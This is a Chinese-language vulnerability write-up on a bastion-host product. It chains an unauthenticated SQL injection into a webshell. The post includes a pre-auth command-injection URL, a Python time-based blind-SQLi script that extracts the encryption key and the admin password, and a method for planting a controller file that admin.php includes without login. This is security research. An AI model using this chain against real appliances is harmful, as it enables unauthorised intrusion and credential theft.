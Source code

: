 ```yaml
---
title: "中远麒麟堡垒机SQLi->webshell"
date: 2023-08-31T15:59:04+08:00
tags: ["sqli"]
---
```


早在之前v1.6时，有一个简单的pre-auth RCE

```
https://target/get_luser_by_sshport.php?clientip=1;command;&clientport=1
```

之后升级到了v1.7，也就是这次hvv爆出sqli的版本，其实在v1.6时就已经因为这个写法出了一堆sql注入，但不是很明白为什么没改，在hvv中爆出来的只有延时检测的poc，下面来看看怎么把这个没回显的注入转化到rce写入webshell

首先这个版本由于架构的调整，认证前可以访问的功能已经很少了，在 `admin.php` 193行开始，可以看到这次爆出来的注入

```php
else if($_GET['controller']=='admin_commonuser'){ 
	$username=$_POST['username']; 
	$password=$_POST['password']; 
	$minfo = $member->select_all("username='".$username."'");
```

username直接从post传入并且带入字符串，跟入 `select_all`，函数定义在 `model/base_set.class.php`

```php
public function select_all($where = '1=1', $orderby1 = '', $orderby2 = 'DESC') { 
	if($orderby1 == '') { 
		$orderby1 = $this->id_name; 
	} 
	return $result = $this->base_select("SELECT * FROM `$this->table_name` WHERE $where ORDER BY $orderby1 $orderby2"); 
}

function base_select($query) {
	$result = $this->query($query);
	if (!$result) {
		return NULL;
	}
	else if(mysql_num_rows($result) == 0) {
		return NULL;
	}
	else {
		while($row = mysql_fetch_assoc($result)) {
			$data[] = $row;
		}
		return $data;
	}
}

public function query($query) {
	global $_CONFIG;
	if($_CONFIG['DB_DEBUG']){
		echo $query . "<br>";
	}
	//echo $query;
	$result = mysql_query($query);
	if($result === false) {
		// echo "SQL:" . $query . "<br>";
		if($_CONFIG['DB_DEBUG']){
			echo "Error:" . mysql_error() . "<br>";
		}else{
			echo "Error: database error<br>";
		}
	}
	return $result;
}
```

可以看到直接带入了 mysql_query 造成注入，这里在 base_query 中加了一个打印错误信息的方便看到结果，实际操作该注入不回显

![](/img/tosec-audit-sqli-to-webshell/1.png)

在有注入之后，开始考虑怎么获取库里的数据，由于这个系统目前登录只是查了用户名然后再做密码比较，之后全用session，首先考虑的是怎么获取到管理员口令来完成用户登录，然而库里存的密码是不可见字符

![](/img/tosec-audit-sqli-to-webshell/2.png)

跟踪一下密码经过了什么处理

```php
public function udf_decrypt($password, $udf=0){//return $password;
    global $_CONFIG;
    $password=addcslashes($password,'\\\'');
    if(!$udf && $_CONFIG['PASSWORD_ENCRYPT_TYPE'])
        $p = $this->base_select("SELECT AES_DECRYPT('".($password)."','".$_CONFIG['PASSWORD_KEY']."') as pass");
    else
        $p = $this->base_select("SELECT udf_decrypt('".($password)."') as pass");
    return $p[0]['pass'];
}
```

这里的 `$_CONFIG['PASSWORD_ENCRYPT_TYPE']` 来源于库中的 `PASSWORD_ENCRYPT_TYPE`，默认开启

![](/img/tosec-audit-sqli-to-webshell/3.png)

那么需要找一下 `$_CONFIG['PASSWORD_KEY']` 是什么

```php
$PasswordKey = $settingobj->base_select("SELECT udf_decrypt(svalue) AS pass FROM setting WHERE  sname='PasswordKey'");
$_CONFIG['PASSWORD_KEY'] = $PasswordKey[0]['pass'];
```

那么就比较清晰了，使用延时先从表中取到 `PasswordKey`，再使用这个key通过延时去获取admin的明文密码

```python
payloads = '_-@.,' + string.digits + string.ascii_letters

def doSqli(subsql):    
    result = ''
    checkUrl = target + '/admin.php?controller=admin_index&action=chklogin&frommc=1&username=admin\' and if(ascii(substr((' + subsql + '),%d,1))=%d,sleep(5),1)%%23--'
    for i in range(30):
        for payload in payloads:
            try:
                req.get(checkUrl % (i+1, ord(payload)), timeout=3, verify=False)
            except requests.exceptions.ReadTimeout as ex:
                result += payload
            except Exception as e:
                pass
    return result

def doGetPass():
    subsql = "SELECT udf_decrypt(svalue) AS pass FROM setting WHERE  sname='PasswordKey'"
    print('[+] get passwordKey')
    PasswordKey = doSqli(subsql)
    print('[!] PasswordKey: ' + PasswordKey)
    subsql = "select aes_decrypt(password,'%s') from member where username='admin'" % PasswordKey
    print('[+] get admin pass')
    password = doSqli(subsql)
    print('[!] admin password: ' + password)
    return password
```

在获取到admin密码后，我们有了访问认证后功能的能力，那么找一下认证后的漏洞，其实这个就很简单了，随便找一下就有很多命令注入，比如 `c_admin_vpnlog.class.php` 中的 `cut` 函数

```php
function cut(){
    global $_CONFIG;
    $username= get_request('username', 0, 1);
    $cmd = $_CONFIG['CONFIGFILE']['VPNCUT']." ".$username;
    $a = exec($cmd, $o, $r);
    if($r==0){
        $this->member_set->query("UPDATE member set vpn=0 where username='".$username."'");
        alert_and_back('操作成功');
        return ;
    }
    alert_and_back('操作失败');
}
```

这里有个小问题，那就是 `get_request` 中其实做了一次传参的的转义，所以类似重定向之类的符号不能直接用，但这个很好绕过

```php
function daddslashes($string, $force = 0) {
    if(!MAGIC_QUOTES_GPC || $force) {
        if(is_array($string)) {
            foreach($string as $key => $val) {
                $string[$key] = daddslashes($val, $force);
            }
        } else {
            $string = htmlspecialchars(addslashes($string));
        }
    }
    return ($string);
}
```

到这里已经有一个命令执行了，但我希望实现webshell，这里的条件不是那么完美，因为当前的nginx配置为

```conf
 location ~ admin.php$ {
    root /opt/freesvr/web/htdocs/freesvr/audit/public/;
    fastcgi_pass 127.0.0.1:9000;
    fastcgi_index admin.php;
    fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
    include fastcgi_params;
    fastcgi_param  VERIFIED $ssl_client_verify;
    fastcgi_param  DN $ssl_client_s_dn;
    fastcgi_connect_timeout 300;
    fastcgi_read_timeout 600;
    fastcgi_send_timeout 600;
}
```

这也导致不管怎么写文件其实都是没办法访问的，因为除了 `admin.php` 之外其实都不给解析到php，随后在继续阅读 `admin.php` 代码时发现

```php
if(isset($_GET['controller'])) {
	$controller = 'c_' . $_GET['controller'];
}
else {
	$controller = 'c_admin_index';
}

if(!empty($_GET['action'])) {
	$action = $_GET['action'];
}
else {
	$action = 'index';
}
$language = array('en','cn');
// ...
require_once(ROOT . './include/language_cn.php');
if(in_array(LANGUAGE,$language)){
	require_once(ROOT . './include/language_'.LANGUAGE.'.php');
}
if($_SESSION['ADMIN_UID']){ /* ... */ }
if(file_exists(ROOT ."./controller/$controller.class.php")) {
	require_once(ROOT ."./controller/$controller.class.php");	
    if((!isset($_SESSION["ADMIN_LOGINED"]) || $_SESSION["ADMIN_LOGINED"] == false) && ($action != 'login_user_field' && $action != 'login' && $action !='chklogin' && $action != 'getpwd'&& $action != 'docronreports'&& $action != 'synchronization_ad_users'&& $action != 'synchronization_ldap_users'&&$action!='get_user_login_fristauth'&& $action != 'get_sms'&& $action != 'get_email'&&$action!='get_weixin'&&$action!='qrcodeimage'&&$action!='watertext')) { 
        /* 跳回登录 */
    }
    else {
        /* 权限控制 */
    }
```

在对是否登录的检查(这里并不会跳回登录页)之后，就开始取 `controller` 与 `action`，将对应的controller文件包含进来后再开始判断是否需要跳回登录与权限校验，那么如果写入一个 `./controller/c_shell.class.php`，再走 `admin.php` 来包含不就可以完成webshell吗，并且还可以无需认证即可访问

到此，就可以实现从未授权sqli->webshell

![](/img/tosec-audit-sqli-to-webshell/4.png)